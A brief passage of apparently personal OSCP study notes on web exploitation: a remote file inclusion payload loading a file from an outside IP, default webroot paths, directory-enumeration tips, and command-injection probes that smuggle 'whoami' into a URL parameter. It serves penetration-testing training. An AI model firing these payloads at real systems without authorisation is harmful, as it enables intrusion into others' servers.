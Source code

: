   - ![image](https://github.com/nuricheun/OSCP/assets/14031269/c57b4849-394f-4fa5-a173-9548b31e9c06)
- Remote File Inclusion(RFI)
  - ?page=http://192.168.45.208/test.txt

- POST/GET with burp suite
- Any .config, .conf files?
- Combination with SQLi and other webpage that we know wehre its root location is

## Webroot
```bash
Apache	/var/www/html/
Nginx	/usr/local/nginx/html/
IIS	c:\inetpub\wwwroot\
XAMPP	C:\xampp\htdocs\
```

## General Tips
- Try "Jetty exploit", "Jetty RCE", "Jetty Remote Code Execution"...
- Open the website and view page/page sources
  - gobuster: wait until it is finished since some important directories show up later!(ex. /under_construction)
  - feroxbuster
  - run nikto
- We should try both POST and GET request using the key variable(ex. UC404)
  - Try with GET request
    - http://192.168.x.x/api?var=whoami
    - http://192.168.x.x/api?var=%0awhoami
    - http://192.168.x.x/api?var=;whoami
  - Try with POST request
    - Intercept the request with Burp Suite
